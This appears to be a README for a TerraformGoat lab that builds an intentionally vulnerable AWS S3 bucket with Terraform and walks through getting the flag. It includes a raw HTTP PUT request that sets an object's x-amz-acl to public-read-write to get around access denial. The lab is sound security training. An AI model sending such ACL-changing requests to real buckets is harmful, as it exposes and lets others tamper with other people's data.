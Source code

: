 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

After typing yes, the scene will be built automatically and quickly

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

We see the list of files that try to access index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

Access is forbidden, but we can modify whether the object can be read or written by adding `public-read-write` to `x-amz-acl` in the request header via the PUT method

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Then we get the ACL of this object and we see that all users can now read and write to it

![image-20220426172506589](../../../images/image-20220426172506589.png)

Afterwards, when you visit index.html, you successfully get the flags

![image-20220426172534934](../../../images/image-20220426172534934.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

enter yes

![image-20220426173554665](../../../images/image-20220426173554665.png)
